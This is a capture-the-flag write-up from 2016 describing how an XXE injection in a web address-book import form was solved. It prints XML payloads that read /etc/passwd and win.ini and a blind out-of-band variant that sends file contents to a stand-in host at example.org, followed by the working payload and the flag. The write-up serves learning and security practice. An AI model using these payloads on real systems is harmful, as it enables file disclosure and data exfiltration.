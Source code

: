 ```yaml
---
layout: post
title: "ECW - 150 - Carnet d'adresses - Web"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2016/11/06
thumbnail: /images/ctf.png
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : European Cyber Week CTF Quals 2016
- **Website** : [challenge-ecw.fr](https://challenge-ecw.fr/)
- **Type** : Online
- **Format** : Jeopardy - Student

### Description

N.A.

## Solution

This one is a XML External Entity ([XXE][xxe]) attack and Out-Of-Band (OOB) channel exfiltration is not working.

[xxe](https://www.gracefulsecurity.com/xml-external-entity-injection-xxe-vulnerabilities/)

We are given the following form:

```xml
<contacts>
  <contact>
    <name>Jean Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue CTF</adress>
    <zipcode>42000</zipcode>
    <city>ECW</city>
  </contact>
  <contact>
    <name>Jack Dupont</name>
    <phone>01 02 03 04 05</phone>
  </contact>
</contacts>
```

And the following answer confirming the well formated XML request:

```
Création du fichier ./MNfloDfo.xml

Import du fichier :

    Importation de 'Jean Dupont' dans le carnet d'adresses
    Importation de 'Jack Dupont' dans le carnet d'adresses

Suppression du fichier ./MNfloDfo.xml
```

We should be able to leak data into the answer banner.

Confirmation that entities are interpreted:

```xml
<!DOCTYPE contacts
[<!ENTITY xxe "XXE vuln">]>
<contacts>
  <contact>
    <name>&xxe;t</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue CTF</adress>
    <zipcode>42000</zipcode>
    <city>ECW</city>
  </contact>
  <contact>
    <name>Jack Dupont</name>
    <phone>01 02 03 04 05</phone>
  </contact>
</contacts>
```

```
Création du fichier ./J2tuDR8g.xml

Import du fichier :

    Importation de 'XXE vulnt' dans le carnet d'adresses
    Importation de 'Jack Dupont' dans le carnet d'adresses

Suppression du fichier ./J2tuDR8g.xml
```

Nice that's working so try to leak some files:

```xml
<!DOCTYPE contacts
[<!ENTITY xxe SYSTEM "http://example.org/test">]>
```

=> doesn't work

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

=> doesn't work

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]>
```

=> doesn't work

[...] and we tried a lot of logical filename on various operating systems.

But how did we find out the right? The challenge required no logic but only guessing ...

I firstly thought the banner was useless because no file was leaked in it. So I thought it was some blind xxe:

```
<!DOCTYPE contacts [ <!ENTITY % pe SYSTEM "http://example.org/xxe_file"> %pe; %param1; ]>
<contacts>
  <contact>
    <name>&external;</name>
    [...]
```

`xxe_file`:

```
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://example.org/log_xxe?data=%payload;'>">
```

And a tried a lot...

But no, in fact no files were leakable exept `flag.txt`. It was impossible to find out it was just guessing because rules and description didn't mention any convention.

I passed hours on days to craft sophishticated blind xxe requests and it was only a very easy xxe but filename had to be guessed, it was easy to think that xxe was not working as others files was not leaked.

Realistic challenge should have be better.

But indeed some people find it realy easily as `flag.txt` can be common in CTF.

I insist on the fact that's is only CTF guessing, in real life this never occurs.

Here was the easy XXE :

```xml
<!DOCTYPE contacts
[<!ENTITY xxe SYSTEM "flag.txt">]>
<contacts>
  <contact>
    <name>&xxe;</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue CTF</adress>
    <zipcode>42000</zipcode>
    <city>ECW</city>
  </contact>
  <contact>
    <name>Jack Dupont</name>
    <phone>01 02 03 04 05</phone>
  </contact>
</contacts>
```

```
Création du fichier ./WDpFYEM5.xml

Import du fichier :

    Importation de 'ECW{8dd72b9b3095380de595d734492d69c9} ' dans le carnet d'adresses
    Importation de 'Jack Dupont' dans le carnet d'adresses

Suppression du fichier ./WDpFYEM5.xml
```
